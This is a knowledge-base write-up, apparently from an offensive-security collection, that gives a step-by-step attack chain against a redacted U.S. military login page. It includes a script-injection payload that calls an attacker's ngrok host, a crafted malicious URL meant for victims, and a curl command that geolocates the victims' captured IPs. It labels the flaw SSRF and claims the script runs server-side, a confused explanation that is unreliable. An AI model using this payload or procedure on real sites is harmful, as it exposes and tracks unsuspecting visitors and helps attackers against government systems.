

---
tags:
  - ssrf
  - dod
  - web
  - javascript
  - fetch-api
  - ip-leak
  - geolocation
type: attack_chain
tools:
  - '[[tools/ngrok]]'
  - '[[tools/curl]]'
  - '[[tools/Firefox]]'
tactics:
  - '[[Initial Access]]'
  - '[[Reconnaissance]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Set-Up-Ngrok-Listener-for-Request-Capture]]'
  - '[[procedures/Craft-and-Inject-SSRF-Payload-into-Login-URL]]'
  - '[[procedures/Trigger-SSRF-Exploit-from-Victim-Device]]'
  - '[[procedures/Analyze-Exfiltrated-Data-and-Trace-Victim-Location]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Active Scanning]]'
updated_at: '2025-12-14T04:39:02.285Z'
description: >-
  Multi-stage SSRF attack on a U.S. Department of Defense login page that
  injects a malicious script into the 'source' parameter, triggering server-side
  requests to an attacker-controlled server to leak victim IP, browser details,
  OS, and enable geolocation tracing.
skill_level: intermediate
impact_level: high
id: 1715111f-813a-4ea9-9c6c-139b36fd826b
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Reconnaissance]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Active Scanning]]'
---
# SSRF in DoD Login Page via Fetch API to Exfiltrate Victim IP and Location

Multi-stage attack chain demonstrating exploitation of a Server-Side Request Forgery (SSRF) vulnerability in a U.S. Department of Defense website's login page. The attack injects a malicious JavaScript payload into the 'source' parameter, leveraging the fetch API to force the server to send cross-domain requests to an attacker-controlled ngrok tunnel. This exfiltrates the victim's IP address, browser information, operating system details, and other headers, enabling geolocation tracing, potential port scanning, and further exploits against site visitors.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/ngrok]]
- [[tools/curl]]
- [[tools/Firefox]]

### Target Environment

- Web platform with JavaScript-enabled login page
- Access to the target URL: https://www.█████████ (redacted US Navy website)
- Required services/ports: HTTP/HTTPS on target; local port 4040 for ngrok monitoring
- Network access requirements: Internet connectivity for ngrok tunnel and victim simulation

### Initial Access Requirements

- No credentials required; public-facing login page
- Network position: External attacker with ability to craft URLs and simulate victim visits
- Prior access needed: None, but separate devices recommended for attacker and victim simulation

## Detailed Attack Procedures

### Step 1: Setup Ngrok Listener
procedure: [[procedures/Set-Up-Ngrok-Listener-for-Request-Capture]]

**Objective**: Establish a public tunnel to capture incoming requests from the exploited server.

**Instructions**: Install and run ngrok to create a listener domain. Monitor the ngrok interface for incoming traffic.

Use [[commands/ngrok-start-tunnel]] to initiate the tunnel:

```bash
ngrok http 80
```

Then access the monitoring interface:

Open http://127.0.0.1:4040 in a browser to view requests.

**Expected Output**: A public ngrok URL (e.g., https://abc123.ngrok.io) for use in payloads; dashboard showing tunnel status.

**Success Indicators**:
- Ngrok tunnel active with custom domain generated
- Local monitoring interface accessible at port 4040

### Step 2: Craft and Inject SSRF Payload
procedure: [[procedures/Craft-and-Inject-SSRF-Payload-into-Login-URL]]

**Objective**: Create a malicious JavaScript payload using the fetch API and inject it into the target's 'source' parameter to trigger SSRF.

**Instructions**: Access the target login page and construct the payload. Append it to the URL's query parameters.

First, open the target URL in [[tools/Firefox]]:

https://www.█████████

Then, build the payload: '><script>fetch('https://your-ngrok-url.ngrok.io')</script>'

Assemble the full malicious URL:

████&source='><script>fetch('https://your-ngrok-url.ngrok.io')</script>&server=submit.moboard.com&display=Please+log+on&title=%3C

**Expected Output**: A crafted URL ready for distribution to victims.

**Success Indicators**:
- Payload string validated without syntax errors
- URL parameters correctly appended with injection

### Step 3: Trigger SSRF Exploit from Victim Device
procedure: [[procedures/Trigger-SSRF-Exploit-from-Victim-Device]]

**Objective**: Simulate a victim accessing the malicious URL to trigger the server-side fetch request to the attacker's ngrok server.

**Instructions**: Use a separate device or browser session to open the crafted URL, causing the server to process the injected script and send a request to ngrok.

Open the malicious URL in [[tools/Firefox]] from a victim-simulating device:

https://www.█████████?... (full crafted URL)

Monitor the ngrok dashboard at http://127.0.0.1:4040 for the incoming request.

**Expected Output**: Server initiates a cross-domain fetch to ngrok, visible in the monitoring interface.

**Success Indicators**:
- Request appears in ngrok logs from the DoD server
- No errors in victim browser; page loads with injected script executing server-side

### Step 4: Analyze Exfiltrated Data and Trace Location
procedure: [[procedures/Analyze-Exfiltrated-Data-and-Trace-Victim-Location]]

**Objective**: Examine captured request headers for victim details and use IP geolocation to trace physical location.

**Instructions**: Review ngrok logs for headers, then query an IP service for location data.

Analyze the request in ngrok interface for IP, User-Agent (browser/OS), and other details.

Use [[commands/curl-ip-geolocation-query]] with the captured IP:

```bash
curl ipinfo.io/IP-address-of-victim
```

**Expected Output**: Headers revealing victim IP, browser (e.g., Firefox 80.0.1), OS; geolocation data like city, region, country.

**Success Indicators**:
- Victim IP and details captured
- Geolocation query returns valid location info

## Attack Chain Summary

### Key Achievements

1. Successful SSRF injection via unsanitized 'source' parameter
2. Exfiltration of victim IP, browser, and OS details to attacker server
3. Geolocation tracing enabling physical location approximation and potential follow-on attacks like port scanning

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Active Scanning]] Active Scanning

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Reconnaissance]] Reconnaissance
- [[Collection]] Collection

---
*Last updated: 2023-10-01T00:00:00Z*
